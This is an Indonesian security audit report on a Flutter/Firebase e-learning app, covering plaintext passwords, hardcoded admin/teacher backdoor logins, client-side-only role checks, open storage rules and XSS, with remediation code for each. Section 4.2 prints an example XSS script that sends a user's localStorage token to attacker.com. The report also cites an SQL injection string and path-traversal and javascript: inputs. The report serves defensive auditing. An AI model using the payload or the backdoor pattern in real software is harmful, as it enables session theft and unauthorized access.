

# LAPORAN AUDIT KEAMANAN SISTEM & CELAH KERENTANAN (VULNERABILITY ASSESSMENT)
**Aplikasi**: E-Learning SuperApp (Flutter & Firebase)  
**Tanggal Audit**: 17 September 2026  
**Status**: DRAFT LAPORAN & PANDUAN REMEDIASI TEKNIS  
**Standar Referensi**: OWASP Top 10 (Web & Mobile), NIST SP 800-63B, Firebase Security Best Practices  

---

## DAFTAR ISI & MATRIKS TINGKAT KEPARAHAN (SEVERITY MATRIX)

| No | Area Audit | Status / Temuan Utama | Severity | CVSS v3.1 |
|:---|:---|:---|:---:|:---:|
| 1 | **Autentikasi & Session Handle** | Password disimpan plaintext di Firestore, FirebaseAuth tidak digunakan, session hanya variabel memori, fallback password hardcoded. | **CRITICAL** | 9.8 |
| 2 | **Role Access Control (RBAC)** | Siswa dapat eskalasi ke Guru/Admin karena role hanya dicek di client (Firestore rules tidak tersinkronisasi token). | **CRITICAL** | 9.1 |
| 3 | **Eksposur Secret & API Key** | Google Gemini API Key tertanam hardcoded di file Dart client (`ai_service.dart`). | **HIGH** | 7.5 |
| 4 | **SQLi, XSS, NoSQLi & Brute Force** | Potensi XSS pada HTML/JS Playground sandbox; risiko Brute Force login tanpa limit; bebas SQLi (karena NoSQL). | **HIGH** | 7.8 |
| 5 | **Validasi Input Seluruh Form** | Mayoritas form tidak memiliki validasi regex, panjang karakter, maupun sanitasi payload. | **MEDIUM** | 6.5 |
| 6 | **Proteksi Serangan Brute Force** | Tidak ada mekanisme lockout, cooldown/exponential backoff, maupun CAPTCHA/App Check. | **HIGH** | 7.5 |
| 7 | **Keamanan Cookies & Web Storage** | Token/state di web disimpan di localStorage rentan XSS; belum ada konfigurasi secure HttpOnly cookies. | **MEDIUM** | 5.3 |
| 8 | **Audit Dependencies Rentan** | Penggunaan `pdf.js` web pihak ketiga rentan CVE font parsing (CVE-2024-4367) dan library excel. | **MEDIUM** | 6.1 |
| 9 | **Kebocoran Data Sensitif ke Log** | Console log mencetak token FCM, respons prompt AI siswa, dan data user tanpa filter `kDebugMode`. | **HIGH** | 7.2 |

---

## 1. KELEMAHAN AUTENTIKASI DAN SESSION HANDLE

### 1.1. Plaintext Password di Database Firestore
- **Lokasi Kode**: [`lib/core/services/firebase_service.dart`](file:///Users/azizul/ProjectLaravel/e-Learning/lib/core/services/firebase_service.dart#L658-L669), [`lib/features/auth/screens/student_register_screen.dart`](file:///Users/azizul/ProjectLaravel/e-Learning/lib/features/auth/screens/student_register_screen.dart#L49)
- **Tingkat Keparahan**: **CRITICAL (CVSS: 9.8)**
- **Deskripsi Masalah**:
  Saat siswa mendaftar atau saat akun guru/admin dibuat, password disimpan secara mentah (plaintext) pada field `initial_password` / `initialPassword` di dokumen `users/{userId}`.
  ```dart
  // Contoh di login():
  final storedPass = user.initialPassword?.trim() ?? '';
  if (storedPass.isNotEmpty && storedPass == pass) { ... }
  ```
  Lebih parah lagi, aplikasi melakukan streaming seluruh data user ke client via:
  ```dart
  db.collection('users').snapshots().listen((snap) { ... });
  ```
  Artinya, setiap perangkat yang terhubung **menerima seluruh password plaintext dari seluruh siswa, guru, dan admin di sekolah!**
- **Dampak**: Siapapun yang membuka DevTools (F12) atau menangkap traffic jaringan dapat menyalin seluruh password pengguna lain dalam satu detik.
- **Rekomendasi Perbaikan**:
  1. Hentikan penyimpanan plaintext password di Firestore.
  2. Gunakan **Firebase Authentication SDK** resmi (`FirebaseAuth.instance.signInWithEmailAndPassword` / `createUserWithEmailAndPassword`).
  3. Jika memerlukan NIS/Username, gunakan custom email mapping di backend (misal `<nis>@elearning.internal`) atau Firebase Cloud Functions dengan Argon2/Bcrypt hashing.

---

### 1.2. Ketiadaan Session Token & Session Management di Client
- **Lokasi Kode**: [`lib/main.dart`](file:///Users/azizul/ProjectLaravel/e-Learning/lib/main.dart#L72-L94), [`lib/core/services/firebase_service.dart`](file:///Users/azizul/ProjectLaravel/e-Learning/lib/core/services/firebase_service.dart#L660)
- **Tingkat Keparahan**: **HIGH (CVSS: 7.5)**
- **Deskripsi Masalah**:
  1. Login saat ini hanya mengatur objek memori `_currentUser = user`. Tidak ada JWT, bearer token, refresh token, atau session ID yang divalidasi oleh server.
  2. Jika halaman di-refresh pada browser (F5), status login langsung hilang seketika karena tidak ada persistent secure storage.
  3. Tidak ada masa kedaluwarsa sesi (Session Timeout) dan tidak ada mekanisme pembatalan sesi (Revoke Session) jika perangkat hilang atau dicuri.
- **Rekomendasi Perbaikan**:
  Gunakan `FirebaseAuth.instance.authStateChanges()` yang secara otomatis mengelola token JWT, rotasi refresh token yang aman, serta penyimpanan terenkripsi di platform Android (Keystore), iOS (Keychain), dan IndexedDB Web.

---

### 1.3. Kredensial Default / Hardcoded Fallback Backdoor
- **Lokasi Kode**: [`lib/core/services/firebase_service.dart`](file:///Users/azizul/ProjectLaravel/e-Learning/lib/core/services/firebase_service.dart#L673-L735)
- **Tingkat Keparahan**: **HIGH (CVSS: 8.2)**
- **Deskripsi Masalah**:
  Terdapat backdoor hardcoded yang memungkinkan siapa saja masuk sebagai Administrator atau Guru:
  ```dart
  if (term == 'admin' && (pass == 'admin' || pass == 'admin123')) { ... }
  if (term == 'guru' && (pass == 'guru' || pass == 'guru123')) { ... }
  else if (storedPass.isEmpty && (pass == '123456' || pass == term)) { ... }
  ```
- **Rekomendasi Perbaikan**:
  Hapus seluruh logika fallback hardcoded sebelum aplikasi dirilis ke tahap produksi. Inisialisasi akun master harus melalui script seed CLI terproteksi atau Firebase Console langsung.

---

## 2. KELEMAHAN ROLE-BASED ACCESS CONTROL (RBAC) & ROLE SWITCHING

### 2.1. Escalation Antara 3 Role (Siswa ↔ Guru ↔ Admin)
- **Lokasi Kode**: [`lib/main.dart`](file:///Users/azizul/ProjectLaravel/e-Learning/lib/main.dart#L84-L93), [`firestore.rules`](file:///Users/azizul/ProjectLaravel/e-Learning/firestore.rules#L10-L16)
- **Tingkat Keparahan**: **CRITICAL (CVSS: 9.1)**
- **Deskripsi Masalah**:
  1. Penentuan hak akses di aplikasi Flutter sepenuhnya mengandalkan pengecekan client-side:
     ```dart
     if (user.isAdmin) return const AdminHomeScreen();
     if (user.isGuru) return const TeacherHomeScreen();
     return const StudentHomeScreen();
     ```
  2. File `firestore.rules` memang mendefinisikan:
     ```javascript
     function isTeacher() { return isAuthenticated() && request.auth.token.role == 'guru'; }
     function isAdmin() { return isAuthenticated() && request.auth.token.role == 'admin'; }
     ```
     **Namun karena aplikasi TIDAK melakukan otentikasi via `FirebaseAuth`, variabel `request.auth` di Firebase selalu bernilai `null`!**
  3. Konsekuensinya: Jika rule diaktifkan, seluruh request ditolak. Jika rule dibuka (`allow read, write: if true`), maka siswa dapat:
     - Mengubah dokumen `users/{myId}` field `role` dari `'siswa'` menjadi `'admin'` atau `'guru'`.
     - Mengakses dan menghapus materi guru, mengubah nilai siswa lain, atau membocorkan kunci jawaban ujian (`question_bank`).
- **Rekomendasi Perbaikan**:
  1. Pasang Firebase Cloud Functions untuk menetapkan **Custom Claims** pada token JWT user:
     ```javascript
     admin.auth().setCustomUserClaims(uid, { role: 'guru' });
     ```
  2. Lindungi mutasi data dengan Security Rules ketat berbasis claims:
     ```javascript
     match /materials/{materialId} {
       allow write: if request.auth.token.role == 'guru' || request.auth.token.role == 'admin';
     }
     ```

---

## 3. EKSPOSUR SECRET, API KEY, DAN TOKEN DI CLIENT SIDE

### 3.1. Google Gemini AI API Key Hardcoded di Kode Client
- **Lokasi Kode**: [`lib/core/services/ai_service.dart`](file:///Users/azizul/ProjectLaravel/e-Learning/lib/core/services/ai_service.dart#L7)
- **Tingkat Keparahan**: **HIGH (CVSS: 7.5)**
- **Temuan**:
  ```dart
  static const String _geminiApiKey = '[REDACTED_GEMINI_API_KEY]';
  ```
  API key ini disertakan secara terang-terangan pada binary Flutter dan dapat diekstrak dengan dekompilasi APK atau inspeksi file `main.dart.js` pada browser.
- **Dampak**:
  Penyerang dapat menggunakan API key ini untuk menguras kuota Google AI Studio, menimbulkan lonjakan biaya penagihan (billing), atau menyalahgunakan model Gemini untuk tujuan terlarang.
- **Rekomendasi Perbaikan**:
  1. Revoke (cabut) segera key tersebut di Google Cloud / AI Studio Console.
  2. Jangan pernah menaruh Secret API Key di client Flutter. Pindahkan logika pemanggilan AI ke endpoint perantara (Firebase Cloud Function atau REST backend). Client hanya mengirim prompt ke backend yang sudah terotentikasi.

---

### 3.2. Firebase Storage Rules Terbuka untuk Publik
- **Lokasi Kode**: [`storage.rules`](file:///Users/azizul/ProjectLaravel/e-Learning/storage.rules#L5)
- **Tingkat Keparahan**: **HIGH (CVSS: 7.5)**
- **Temuan**:
  ```javascript
  match /{allPaths=**} {
    allow read, write: if true;
  }
  ```
  Semua orang di internet dapat mengunggah file berbahaya (misal malware, script web shell, dokumen ilegal) atau menghapus seluruh file tugas siswa.
- **Rekomendasi Perbaikan**:
  Batasi upload hanya untuk pengguna terotentikasi dan batasi ukuran/ekstensi:
  ```javascript
  rules_version = '2';
  service firebase.storage {
    match /b/{bucket}/o {
      match /assignments/{assignmentId}/{fileName} {
        allow read: if request.auth != null;
        allow write: if request.auth != null 
                     && request.resource.size < 10 * 1024 * 1024
                     && request.resource.contentType.matches('application/pdf|image/.*');
      }
    }
  }
  ```

---

## 4. RISIKO SQL INJECTION, XSS, DAN EXECUTABLE SANDBOX ESCAPE

### 4.1. SQL Injection & NoSQL Query Injection
- **Tingkat Keparahan**: **LOW / MINIMAL**
- **Analisis**:
  Aplikasi menggunakan **Cloud Firestore (NoSQL Document Store)** dan Flutter SDK. Firestore SDK tidak menggunakan query string berbasis konkatenasi SQL mentah, sehingga kebal terhadap SQL Injection klasik seperti `' OR 1=1 --`.
  Namun, tetap waspadai NoSQL object injection jika nantinya ada backend Express/NodeJS yang memproses parameter tanpa sanitasi.

---

### 4.2. Cross-Site Scripting (XSS) pada Code Playground & Web Preview
- **Lokasi Kode**: [`lib/core/services/compiler_service.dart`](file:///Users/azizul/ProjectLaravel/e-Learning/lib/core/services/compiler_service.dart#L55-L68), [`lib/features/code_compiler/screens/code_playground_screen.dart`](file:///Users/azizul/ProjectLaravel/e-Learning/lib/features/code_compiler/screens/code_playground_screen.dart)
- **Tingkat Keparahan**: **HIGH (CVSS: 7.8)**
- **Deskripsi Masalah**:
  Fitur IDE Playground memungkinkan siswa/guru menulis dan mempratinjau kode HTML, CSS, dan JavaScript. Jika kode tersebut dirender langsung ke dalam DOM aplikasi Flutter Web atau WebView tanpa atribut sandbox yang ketat, skrip berbahaya dapat mengeksekusi:
  ```html
  <script>
    fetch('https://attacker.com/steal?token=' + localStorage.getItem('token'));
  </script>
  ```
- **Rekomendasi Perbaikan**:
  1. Di Flutter Web, render HTML/JS hanya di dalam `<iframe>` dengan atribut sandbox terbatas:
     ```html
     <iframe sandbox="allow-scripts" srcdoc="..."></iframe>
     ```
     *(Perhatikan: JANGAN gunakan `allow-same-origin` bersamaan dengan `allow-scripts` pada domain aplikasi utama)*.
  2. Gunakan domain origin terpisah (misal `sandbox-preview.domainanda.com`) untuk merender kode pengguna.

---

## 5. VALIDASI INPUT DI SELURUH FORM (AUDIT & REKOMENDASI LENGKAP)

### 5.1. Temuan Form yang Kurang Validasi
1. **Form Login ([`login_screen.dart`](file:///Users/azizul/ProjectLaravel/e-Learning/lib/features/auth/screens/login_screen.dart))**:
   - Tidak ada validasi panjang minimum/maksimum NIS atau password.
   - Input kosong langsung dikirim ke Firebase Firestore query.
2. **Form Registrasi Siswa ([`student_register_screen.dart`](file:///Users/azizul/ProjectLaravel/e-Learning/lib/features/auth/screens/student_register_screen.dart))**:
   - NIS tidak divalidasi apakah berupa angka murni atau alfanumerik.
   - Nama lengkap tidak dibatasi karakter khusus (bisa diisi karakter kontrol / emoji spam).
   - Password hanya dicek `length < 6`, tidak ada pengecekan kompleksitas.
3. **Form Pembuatan Materi ([`material_form_screen.dart`](file:///Users/azizul/ProjectLaravel/e-Learning/lib/features/materials/screens/material_form_screen.dart))**:
   - URL YouTube / Canva / PDF tidak divalidasi format regex URI-nya. URL berbahaya seperti `javascript:...` atau URL phising dapat dimasukkan.
4. **Form Pengumpulan Tugas ([`assignment_detail_screen.dart`](file:///Users/azizul/ProjectLaravel/e-Learning/lib/features/assignments/screens/assignment_detail_screen.dart))**:
   - Nama berkas unggahan tidak disanitasi dari path traversal (`../`) atau nama file berbahaya.

---

### 5.2. Standar Validasi Input yang Harus Diterapkan

Berikut adalah helper validator terpusat yang disarankan untuk ditambahkan ke [`lib/core/utils/input_validators.dart`](file:///Users/azizul/ProjectLaravel/e-Learning/lib/core/utils/input_validators.dart):

```dart
class InputValidators {
  // 1. Validasi NIS (Hanya digit angka, 4-12 karakter)
  static String? validateNis(String? value) {
    if (value == null || value.trim().isEmpty) return 'NIS wajib diisi';
    final clean = value.trim();
    if (!RegExp(r'^[0-9]{4,12}$').hasMatch(clean)) {
      return 'NIS harus berupa angka (4 - 12 digit)';
    }
    return null;
  }

  // 2. Validasi Nama Lengkap (Hanya huruf, spasi, titik, koma, kutip)
  static String? validateFullName(String? value) {
    if (value == null || value.trim().isEmpty) return 'Nama lengkap wajib diisi';
    final clean = value.trim();
    if (clean.length < 3 || clean.length > 70) {
      return 'Nama harus terdiri dari 3 - 70 karakter';
    }
    if (!RegExp(r"^[a-zA-Z\s\.,']+$").hasMatch(clean)) {
      return 'Nama hanya boleh mengandung huruf dan tanda baca nama';
    }
    return null;
  }

  // 3. Validasi Password Kuat
  static String? validatePassword(String? value) {
    if (value == null || value.trim().isEmpty) return 'Password wajib diisi';
    if (value.length < 6) return 'Password minimal 6 karakter';
    if (value.length > 50) return 'Password maksimal 50 karakter';
    return null;
  }

  // 4. Validasi URL Media Materi
  static String? validateMediaUrl(String? value, String contentType) {
    if (value == null || value.trim().isEmpty) return 'URL media wajib diisi';
    final uri = Uri.tryParse(value.trim());
    if (uri == null || !uri.hasScheme || (!uri.scheme.startsWith('http'))) {
      return 'Format URL tidak valid (harus diawali http:// atau https://)';
    }
    if (contentType == 'youtube') {
      if (!uri.host.contains('youtube.com') && !uri.host.contains('youtu.be')) {
        return 'URL harus berasal dari domain youtube.com atau youtu.be';
      }
    } else if (contentType == 'canva') {
      if (!uri.host.contains('canva.com')) {
        return 'URL harus berasal dari domain canva.com';
      }
    }
    return null;
  }
}
```

---

## 6. PROTEKSI DARI SERANGAN BRUTE FORCE

### 6.1. Kondisi Saat Ini
Saat ini tidak ada limit percobaan login pada form login. Script otomatis dapat mengirimkan ribuan percobaan per menit untuk menebak kombinasi username/NIS dan password.

### 6.2. Solusi & Proteksi Bertingkat:
1. **Exponential Backoff & Account Lockout di Client/Service**:
   - Jika pengguna gagal login 5 kali berturut-turut:
     - Kunci tombol login selama 60 detik.
     - Tampilkan hitung mundur waktu tunggu.
     - Jika terus gagal, gandakan waktu tunggu (120 detik, 300 detik).
2. **Implementasi Kode Cooldown di `login_screen.dart`**:
   ```dart
   int _failedAttempts = 0;
   DateTime? _lockoutUntil;

   bool get _isLockedOut => _lockoutUntil != null && DateTime.now().isBefore(_lockoutUntil!);

   void _registerFailedAttempt() {
     _failedAttempts++;
     if (_failedAttempts >= 5) {
       final waitSeconds = _failedAttempts >= 8 ? 300 : (_failedAttempts == 7 ? 180 : 60);
       _lockoutUntil = DateTime.now().add(Duration(seconds: waitSeconds));
     }
   }
   ```
3. **Firebase App Check**:
   Aktifkan Firebase App Check di Firebase Console dengan provider:
   - **Web**: reCAPTCHA v3 atau reCAPTCHA Enterprise.
   - **Android**: Play Integrity API.
   - **iOS**: DeviceCheck / App Attest.
   Hal ini menjamin hanya aplikasi resmi Anda yang dapat memanggil API Firebase, memblokir bot dan script otomatis.

---

## 7. KEAMANAN COOKIES DAN SESSION STORAGE

### 7.1. Evaluasi Flutter Web Storage
Pada platform Flutter Web, aplikasi sering menyimpan session token atau profil di:
- `window.localStorage` / `SharedPreferences` (Web implementation).

**Risiko**:
Data yang disimpan di `localStorage` dapat diakses oleh skrip JavaScript apa pun yang berjalan di origin yang sama. Jika terjadi celah XSS (misal dari compiler HTML atau dependensi rentan), token dapat dicuri.

### 7.2. Rekomendasi Arsitektur Cookie yang Aman:
Jika nantinya otentikasi dipindahkan ke backend web API / Cloud Functions, gunakan **HTTP Cookies** dengan atribut wajib:
```http
Set-Cookie: __session=JWT_TOKEN_HERE; Path=/; Secure; HttpOnly; SameSite=Strict; Max-Age=86400
```
- **`HttpOnly`**: Mencegah cookie dibaca oleh JavaScript (`document.cookie`), sehingga kebal dari pencurian via XSS.
- **`Secure`**: Memastikan cookie hanya ditransmisikan melalui protokol terenkripsi HTTPS.
- **`SameSite=Strict`**: Melindungi aplikasi dari serangan Cross-Site Request Forgery (CSRF).

---

## 8. AUDIT DEPENDENCY & LIBRARY YANG BERPOTENSI RENTAN

Pemeriksaan terhadap berkas [`pubspec.yaml`](file:///Users/azizul/ProjectLaravel/e-Learning/pubspec.yaml) dan file pendukung:

| Package / Library | Versi Digunakan | Potensi Risiko & Advisory | Rekomendasi |
|:---|:---:|:---|:---|
| `pdf.js` di `web/index.html` | CDN unpinned | **CVE-2024-4367**: Kerentanan eksekusi JavaScript arbitrer pada file PDF dengan custom font matrix. | Perbarui script `pdf.js` di `web/index.html` ke versi **v4.2.67** atau lebih baru. |
| `excel` | `^4.0.6` | Parsing file `.xlsx` dari siswa berpotensi terkena DoS/Memory Exhaustion jika siswa mengunggah Zip Bomb/XML Bomb. | Pasang batas ukuran file maksimal sebelum parsing (`< 15 MB`). |
| `file_picker` / `image_picker` | `^13.0.0` / `^1.2.3` | Ekstensi file palsu (misal berkas `.exe` diubah ekstensi menjadi `.pdf`). | Verifikasi Magic Bytes (MIME type biner asli) bukan hanya nama file. |
| `http` | `^1.6.0` | Server-Side Request Forgery (SSRF) pada request external Piston API / image loader. | Batasi URL target hanya ke domain whitelist terpercaya. |

---

## 9. PENCEGAHAN KEBOCORAN DATA SENSITIF KE CONSOLE LOG

### 9.1. Temuan Log Sensitif Aktif
1. [`lib/core/services/fcm_service.dart:22`](file:///Users/azizul/ProjectLaravel/e-Learning/lib/core/services/fcm_service.dart#L22):
   ```dart
   debugPrint('FCM Device Token: $token');
   ```
   Device Token FCM dapat digunakan pihak luar untuk mengirim notifikasi spoofing/spam ke perangkat pengguna.
2. [`lib/core/services/ai_service.dart:189`](file:///Users/azizul/ProjectLaravel/e-Learning/lib/core/services/ai_service.dart#L189):
   ```dart
   debugPrint('[AiService] Gemini ($model) status: ${response.statusCode} - ${response.body}');
   ```
   Mencetak seluruh teks prompt, materi tugas, dan jawaban siswa ke log browser atau debugger.
3. [`lib/core/services/firebase_service.dart`](file:///Users/azizul/ProjectLaravel/e-Learning/lib/core/services/firebase_service.dart):
   Mencetak status user stream dan operasi batch delete yang mengekspos ID dokumen dan aktivitas database.

### 9.2. Rekomendasi Pencegahan:
Gunakan wrapper logging terpusat yang otomatis mati (no-op) saat build dalam mode **Profile / Release**:

```dart
import 'package:flutter/foundation.dart';

class SafeLogger {
  static void log(String message, {bool containsSensitiveData = false}) {
    if (kDebugMode && !containsSensitiveData) {
      debugPrint('[LOG] $message');
    }
  }

  static void error(String message, [dynamic error]) {
    if (kDebugMode) {
      debugPrint('[ERROR] $message: $error');
    }
  }
}
```

---

## 10. ROADMAP PERBAIKAN PRIORITAS (ACTION PLAN)



1. **Langkah Mendesak (Urgent - 24 Jam Pertama)**:
   - Cabut Gemini API key yang terekspos di `ai_service.dart` dan pindahkan ke backend environment variable.
   - Hapus akun backdoor hardcoded (`admin / admin`, `guru / guru`) di `firebase_service.dart`.
   - Perketat `storage.rules` agar tidak `allow read, write: if true`.
2. **Langkah Jangka Menengah (1-2 Minggu)**:
   - Migrasikan autentikasi siswa dan guru ke **Firebase Authentication** dengan hash password yang aman.
   - Pasang Custom Claims untuk role `admin`, `guru`, `siswa` agar Security Rules Firestore aktif melindungi data.
   - Terapkan helper `InputValidators` pada semua `TextFormField`.
3. **Langkah Pemeliharaan (Berkala)**:
   - Aktifkan Firebase App Check.
   - Lakukan audit dependensi berkala dengan `flutter pub outdated`.
